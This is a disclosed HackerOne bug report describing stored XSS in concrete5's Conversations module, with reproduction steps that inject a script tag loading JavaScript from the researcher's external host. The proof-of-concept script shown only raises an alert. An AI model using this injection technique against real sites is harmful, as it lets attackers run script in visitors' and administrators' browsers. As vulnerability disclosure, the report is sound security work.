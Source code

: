 # Stored XSS in Conversations (both client and admin) when Active Conversation Editor is set to "Rich Text"

## Report Details
- **Report ID**: 616770
- **URL**: https://hackerone.com/reports/616770
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-06-17T01:04:07.395Z
- **Disclosed**: 2021-10-04T16:43:27.528Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: concretecms

## Vulnerability Information
Hi concrete5 Team,

**Summary**

I've identified Stored XSS vulnerability in  concrete5 **Conversations** module, when Active Conversation Editor is set to "Rich Text". An attacker is able to input malicious JavaScript, which is run in both client (agains any site visitor) as well as against any user logged into admin panel and visiting Conversations->Messages screen.

Severity: **External Attack Vector**; Core CMS
 
Core Version - 8.5.2a1
Version Installed - 8.5.2a1
Database Version - 20190520171430

commit `aeaa924977ee87220b7f2d2dadc25d5a24b9e2a1`

There are also some crayons here and there :)

**Steps to reproduce**

(All steps were made in concrete5 with default Elemental theme)

- make sure that *Active Conversation Editor* in System & Settings->Conversations->Settings is set to *Rich Text*

- go to any blog entry which allows to add a comment

- in rich text editor, make sure you click "Source" button first. That will save HTML with `<script>` tag and JavaScript payload "as-is" in database

- put following payload in comment field:

`<script src="http://bl4de.tech/poc.js"></script>`

{F510304}

- post comment

- you will immediately notice the payload is executed

- you can verify this is Stored XSS opening the page in any other browser, as an anonymous or logged in user:

Chrome

{F510307}

Firefox

{F510308}

Also, the payload is not visible. Below is the difference in comment when `Source` button was on and off (with the same payload as provided above):

{F510305}


- verify that payload **is also executed in administration panel** by going to Conversations->Messages screen:


{F510306}

**Impact**

An attacker is able to execute malicious JavaScript against any user, in both client and backend of the concrete5 application.


**Testing environment**

- concrete 8.5.2a1, installed locally from branch `develop`
- PHP/7.1.23 (macOS)
- Apache/2.4.34 (macOS)
- MySQL Community Server 8.0.16 for macOS 10.14
- Chromium 77.0.3826.0
- Google Chrome 74.0.3729.169
- Firefox 67.0.2

Content of `http://bl4de.tech/poc.js` used in PoC as payload:

```
'use strict'
const msg = 'This file is loaded from bl4de.tech domain and executed in context of ' + document.domain;
console.log(msg)
window['alert'](msg)
```



Best Regards,

Rafal 'bl4de' Janicki

## Impact

An attacker is able to execute malicious JavaScript against any user, in both client and backend of application.

## Attachments
- 1.png
- 2.png
- 3.png
- 4.png
- 5.png
